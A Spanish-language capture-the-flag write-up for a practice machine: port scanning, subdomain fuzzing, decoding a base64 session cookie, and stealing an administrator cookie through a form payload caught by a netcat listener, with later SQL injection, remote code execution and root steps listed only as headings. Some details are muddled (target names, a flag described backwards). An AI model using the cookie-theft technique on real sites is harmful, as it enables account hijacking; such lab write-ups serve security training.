






# Institution 

Esta máquina involucraba enumerar y explotar múltiples vulnerabilidades en una aplicación web, escalar privilegios de forma ingeniosa y finalmente comprometer el sistema por completo obteniendo acceso root.

## Fase de preparación y enumeración inicial con Nmap y GoBuster para descubrir puertos abiertos y directorios.

[Seclist](https://github.com/danielmiessler/SecLists.git): es un repositorio con diccionarios datos para hacking

1. Crear un directorio para las enumeraciones (identificar y catalogar activos) en el directorio raiz del sistema

```bash
cd
mkdir enumeration
```

2. Enumeracion de puertos (seervicios)

```bash
nmap -sC -sV -v intentions.htb -oN enumeration/nmap
```
-sC (service scan): Ejecuta los scripts de enumeración predeterminados de Nmap.
-sV (version scan): Intenta detectar la versión de los servicios que se ejecutan en los puertos abiertos.
-v (verbosity   ): Aumenta el nivel de verbosidad de la salida.
intentions.htb: Es el nombre de dominio de la máquina objetivo que se agregó al archivo /etc/hosts previamente.
-oN enumeration/nmap: Guarda la salida del escaneo en un archivo de texto llamado "nmap" dentro del directorio "enumeration".



La salida muestra:

22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)

Los puertos abiertos de la maquina objetivo muestran que los servicions de nginx en el puerto 80/tcp y OpenSSH en el puerto 22/tcp estan activos.

Enumeramos pero a mayor profundidad con -p- que es un parametro para revisar la totalidad de puertos.

```bash
nmap -sC -sV -v intentions.htb -oN enumeration/scan-full -p-
```

3. Nos dirigimos al dominio correspondiente: http://{target_IP} y nos da el nombre de dominio correspondiente que es **comprezzor.htb**, añadimos un nuevo nombre de dominio con su ip al archivo "/etc/hosts" donde se almacenan la asociacion de nombres de dominio con direcciones IP



```bash
sudo echo "{target_IP} comprezzor.htb" >> /etc/hosts
```

4. Nos dirigimos al pie de pagina del sitio web, entramos al enlace



nos dirigira a un nuevo subdominio **report.comprezzor.htb** lo añadirmos al archivo que almacena la asociación de dominios con IPs

5. Realizamos fuzzing

Fuzzing

El fuzzing es una técnica de pentesting que se utiliza para enumerar subdominios, directorios o archivos ocultos en aplicaciones web.

```bash
ffuf -w SecLists-master/Discovery/DNS/subdomains-top1million-5000.txt -H 'Host: FUZZ.comprezzor.htb' -u http://comprezzor.htb/ -fc 301 
```
ffuf: Ejecuta la herramienta ffuf.
-w /wordlists/subdomain.txt: Especifica el archivo de lista de palabras (en este caso, subdomain.txt) que se utilizará para el fuzzing.
-u http://comprezor.htb: Define la URL base objetivo.
-H 'Host: FUZZ.comprezor.htb': Agrega un encabezado HTTP personalizado, donde FUZZ será reemplazado por cada palabra de la lista durante el fuzzing.
-fc 301: Filtra y muestra solo las respuestas con código de estado 301 (Redirección permanente).


nos aparecieron mas subdomincion que son:

- auth
- report
- dashboard

todos debemos añadirlo al archivo de dominios, debe quedar algo asi:

```bash 
10.10.11.15    comprezzor.htb
10.10.11.15    report.comprezzor.htb
10.10.11.15    auth.comprezzor.htb
10.10.11.15    dashboard.comprezzor.htb/login
```

5. Nos registramos [username: jose] [password: fernandez] 

6. Abrimos la inspeccion ctr+shift+i y verificamos el valor de la cookie que esta en base 64



7. Decodificamos el valor de la cookie

```bash
echo "eyJ1c2VyX2lkIjogNiwgInVzZXJuYW1lIjogImpvc2UiLCAicm9sZSI6ICJ1c2VyIn18ZDIzMzY1NzQxN2E3YTU1MmE2NDY0MzVhYzZjYmRmMTMyZjc5ZmMzZDhkZDExZmUwYTJlMTg3ZThjMzdkMGE1NQ==" | base64 -d

```



se muestra el usuario y contrasenia

8. Creamos un servidor de prueba que escucha en el puerto 8081, y en el propio formulario al que accedemos le colocamos el siguiente payload

```bash
    ">

o

">

# Se activa el servidor de escucha en el puerto 8081 con:

nc -lnvp 8081

# obtenemos la siguiente cookie:

eyJ1c2VyX2lkIjogMiwgInVzZXJuYW1lIjogImFkYW0iLCAicm9sZSI6ICJ3ZWJkZXYifXw1OGY2ZjcyNTMzOWNlM2Y2OWQ4NTUyYTEwNjk2ZGRlYmI2OGIyYjU3ZDJlNTIzYzA4YmRlODY4ZDNhNzU2ZGI4

```

9. Uso de burp suite

Burp Suite es una herramienta de prueba de penetración de aplicaciones web desarrollada por PortSwigger. Es ampliamente utilizada por profesionales de seguridad para identificar y explotar vulnerabilidades en aplicaciones web. Burp Suite proporciona una gama de herramientas integradas, incluyendo un proxy para capturar el tráfico web, un escáner de vulnerabilidades, y herramientas para realizar ataques como fuzzing y manipulación de solicitudes.

Como funciona: en este caso captura las solicitudes desde colocarlo en los formularios y lo podemos modificar, lo unico relevante para continuar con este trabajo es modificar la proxy de destino del navegador que se debe configurar manualmente al 127.0.0.1 puerto 8080


## Encontrar una vulnerabilidad de inyección SQL en un endpoint de la aplicación web Laravel y explotarla para obtener credenciales de administrador.

## Descubrir una vulnerabilidad de ejecución remota de comandos (RCE) en la API v2 de la aplicación, explotando una librería de manipulación de imágenes (Imagick) y lograr una reverse shell como www-data.

## Obtener acceso como el usuario greg a través de credenciales encontradas en un repositorio Git de la aplicación.

## Escalar privilegios a root aprovechando un binario SUID que permitía leer cualquier archivo como root, incluyendo la clave SSH privada de root mediante fuerza bruta.

## Usar la clave SSH privada de root para obtener una sesión SSH como usuario root y leer la flag final.

